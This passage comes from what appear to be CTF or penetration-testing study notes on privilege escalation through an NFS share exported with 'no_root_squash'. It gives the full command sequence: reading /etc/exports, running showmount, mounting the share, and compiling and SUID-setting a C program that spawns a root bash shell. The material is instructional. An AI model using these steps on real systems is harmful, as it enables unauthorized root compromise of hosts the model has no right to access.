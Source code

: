 Privilege escalation vectors are not confined to internal access. Shared folders and remote management interfaces such as SSH and Telnet can also help you gain root access on the target system. Some cases will also require using both vectors, e.g. finding a root SSH private key on the target system and connecting via SSH with root privileges instead of trying to increase current usre's privilege level.

Another vector that is more relevant to CTFs and exams is a misconfigured network shell. This vector can sometimes be seen during penetration testing engagements when a network backup system is present.

NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.

```bash
$cat /etc/exports
```

One of the outputlines is /backups *(rw,sync,insecure,no_root_squash,no_subrree_check) The critical element for this privilege escalation vector is the "no_root_squash" option you can see here. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the "no_root_squash" option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

To enumerate mountable shares from our attacking machine we can use

```bash
$showmount -e target_ip
```

We will mount one of the "no_root_squash" shares to our machine and start building our executable.
```bash
$mkdir /tmp/norootsquashmount
$mount -o rw target_ip:/backups /tmp/norootsquashmount
```

We will use the c program 

```c
int main() {
    setgid(0);
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

```bash
#gcc nfs.c -o nfs -w
#chmod +s nfs
```

Now back on the target system we can see that both nfs.c and nfs are present
```bash
$./nfs
```

We will have our root shell.

## Capstone Project
